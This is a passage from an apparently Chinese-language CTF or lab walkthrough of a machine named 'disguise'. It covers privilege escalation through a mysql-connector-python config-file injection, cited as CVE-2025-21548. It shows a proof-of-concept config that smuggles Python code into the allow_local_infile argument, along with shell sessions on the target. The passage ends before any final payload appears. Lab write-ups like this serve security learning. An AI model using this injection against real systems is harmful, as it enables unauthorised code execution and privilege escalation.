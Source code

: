 发现引用了一个python的库，看一下版本，是否存在相关的漏洞：

```bash
darksoul@disguise:/tmp$ pip list
Package                Version
---------------------- -------------
certifi                2018.8.24
chardet                3.0.4
httplib2               0.11.3
idna                   2.6
mysql-connector-python 8.0.33
pip                    24.0
protobuf               3.20.3
pycurl                 7.43.0.2
PySimpleSOAP           1.16.2
python-apt             1.8.4.3
python-debian          0.1.35
python-debianbts       2.8.2
reportbug              7.5.3+deb10u2
requests               2.21.0
setuptools             68.0.0
six                    1.12.0
urllib3                1.24.1
wheel                  0.42.0
```

### CVE-2025-21548

这利用到了一个cve漏洞，详情可以参考：

- https://dev.mysql.com/doc/connector-python/en/connector-python-connectargs.html
- https://mp.weixin.qq.com/s?__biz=MzUzNDMyNjI3Mg==&mid=2247487315&idx=1&sn=4a145deeb3c9c632593bb92f6a88d217&poc_token=HMWrVWij15l_XHSHpC-0tgfekMW92f-IIleMzzxH

```bash

[incorrect_config]

user=root
password=mypass
database=cpydata
port=int(3306)
allow_local_infile=__import__('os').system('calc')
```

尝试利用进行提权：

```bash
darksoul@disguise:~$ cat config.ini 
[client]
user = dark_db_admin
password = Str0ngPassw0d1***
host = localhost
database = dark_shop
port = int(3306)
darksoul@disguise:~$ mv config.ini config.ini.bak
darksoul@disguise:~$ vi config.ini
darksoul@disguise:~$ nano config.ini
darksoul@disguise:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
darksoul@disguise:~$ cat config.ini
[client]
user = dark_db_admin
password = Str0ngPassw0d1***
host = localhost
database = dark_shop
port = int(3306)
```